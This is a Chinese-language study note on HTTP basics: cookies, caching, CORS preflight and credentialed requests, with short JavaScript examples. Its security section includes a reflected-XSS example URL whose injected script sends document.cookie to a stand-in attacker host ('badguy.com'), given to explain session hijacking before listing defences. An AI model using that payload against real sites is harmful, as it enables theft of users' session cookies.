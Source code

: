 

# http
- 网络通讯协议

### 客户端user-agent
- 可以为用户发起网络请求的工具，大部分由浏览器扮演

### web服务器
- 请求的另一端，可以是一个服务器组成的集群，也可以是一个向其他计算机请求的软件

### proxy
- 请求中，在应用层转发了http信息的程序，我们叫做代理，表现的功能有
- 缓存，过滤，负载均衡，权限控制，登录存储历史信息

### http性质
-  1.  简单，可添加
-  2.  http无状态，有会话
-  3.  两次请求没有必然联系（除非加入cookies，创建一个会话共享上下文信息）

### 浏览器缓存
- 适用于：定期或者频繁更新的资源
- 客户端和浏览器端规约一个缓存时间
- 利用cache-control，expires，last-modified等计算过期时间

### 资源加速
- 适用于：长期不更新，但是一旦更新就希望尽快上线
- 使用时在文件名后面加上一个版本号，或者hash，时间戳等等

### cookies
- cookies使http记录状态变成了可能，主要作用：
- 会话状态管理
- 个性化设置
- 浏览器行为跟踪

### 创建cookies
```js
response.setHeader('Set-Cookie', ['type=ninja', 'language=javascript']);
```
- 创建cookie后，对该服务器的每一次请求，浏览器都会将之前保存的cookie发送给服务器

### 会话期cookie
- 不需要指定过期时间和有效期

### 持久cookie
- 可以指定一个有效期和有效时间

### Secure; HttpOnly
- 这样设置了，cookie就无法被客户端js所调用

### cookie的作用域
- 通过domain和path来指定主机名和url路径

### js访问cookie
```js
document.cookie = 'tastyCookie=strawberry'
```








## 安全问题

### 会话劫持和XSS
XSS攻击就是攻击者在网页中嵌入恶意脚本，前提是盗取cookie

那么如何嵌入脚本呢：
- Reflected
  <%Reequest.QueryString("term")%>
  在http://victim.com/search.asp后面附上
  http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>

防止方法：
- 设置httpOnly，防止cookie被盗取
- 加入ip或者user-agent进行对比
- web app

### 跨站请求伪造CSRF
当用户登录A网站后，钓鱼网站通过诱导用户点击图片链接，来想A网站发送请求。
由于用户已经登录A，cookie等信息随着请求过去，后台无法分辨
CSRF攻击就是提用户发起请求，前提是不知道cookie

防止方法：
- 通过token来校验用户提交
- 修改删除都通过post请求
- 不要暴露用户隐私信息



## CORS跨域资源共享
> 跨域拦截不一定是浏览器限制了网络请求，也可能是请求成功，返回参数被浏览器拦截了

## 简单请求
- 请求类型
    GET; POST; HEAD

- 规定了只能设置部分字段
    Accept
    Accept-Language
    Content-Type 

- Content-Type类型
    text/plain
    multipart/form-data
    application/x-www-form-urldecoded

这种简单请求和浏览器发出的请求一样，如果服务器没返回正确的响应首部，则不会受到任何请求
比如 http://foo.wxample 想要访问 http://ba.other 的资源

这样执行的代码：
```js
var invocation = new XMLHttpRequest()
var url = 'http://bar.other/resources/public-data'

function callOtherDomain() {
    if(invocation) {
      invocation.open('GET', url, true);
      invocation.onreadystatechange = handler
      invocation.send()
    }
}
```

执行的时候，只要后台允许就能够跨域
客户端和服务器之间使用CROS来处理跨域权限
- 使用 Origin 和 Access-Control-Allow-Origin 就能完成最简单的访问控制


## 需预检的请求
需要预检的请求，在发起之前会先发送一个OPTIONS请求

- 请求类型
    PUT
    DELETE
    CONNECT
    OPTIONS
    TRACE
    PATCH

- 再就是设置了简单请求之外字段和取值的

这样执行的代码：
```js
var invocation = new XMLHttpRequest()
var url = 'http://bar.other/resource/post-here'
var body = {
  name: 'fyi'
}

function callOtherDomain() {
  if(invocation) {
    invocation.open('POST', url, true)
    invocation.setRequestHeader('Content-Type', 'application/json')
    invocation.onreadystatechange = handler;
    invocation.send(body)
  }
}
```

执行的时候，先发送一个OPTIONS进行预检
OPTIONS是HTTP/1.1中的方法，用于从服务器获取更多信息



## 附带身份凭证的请求
跨域请求时，将cookies跨域发送
客户端要设置 withCredentials / true
服务器端要设置 Access-Control-Allow-Credentials: true
缺一不可，如果服务器没有设置的话，浏览器也不会把返回参数反馈给请求者
```js
var invocation = new XMLHttpRequest()
var url = 'http://bar.other/resources/public-data'

function callOtherDomain() {
    if(invocation) {
      invocation.open('GET', url, true);
      invocation.withCredentials = true
      invocation.onreadystatechange = handler
      invocation.send()
    }
}
```


## HTTP响应首部字段

- Access-Control-Allow-Origin
  指定了允许访问该资源的外部的URL

- Access-Control-Expose-Headers
  设置浏览器能够访问到的HTTP首部字段信息

- Access-Control-Max-Age
  表示预检请求能够被缓存多少秒

- Access-Control-Allow-Credential
  